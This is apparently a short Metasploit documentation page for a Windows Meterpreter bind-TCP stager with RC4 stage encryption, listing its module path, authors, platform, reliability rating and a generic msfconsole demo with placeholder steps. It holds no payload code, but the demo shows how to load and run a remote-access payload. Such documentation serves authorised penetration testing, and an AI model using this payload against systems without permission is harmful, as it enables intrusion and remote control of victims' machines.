 ## Windows Meterpreter (skape/jt Injection), Bind TCP Stager (RC4 Stage Encryption)

Inject the meterpreter server DLL (staged). Listen for a 
connection


## Module Name
payload/windows/patchupmeterpreter/bind_tcp_rc4

## Authors
* skape
* jt <jt@klake.org>
* hdm
* sf
* mihi





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/bind_tcp_rc4
msf payload(bind_tcp_rc4) > show targets
   ... a list of targets ...
msf payload(bind_tcp_rc4) > set TARGET <target-id>
msf payload(bind_tcp_rc4) > show options
   ... show and set options ...
msf payload(bind_tcp_rc4) > run
```
    
    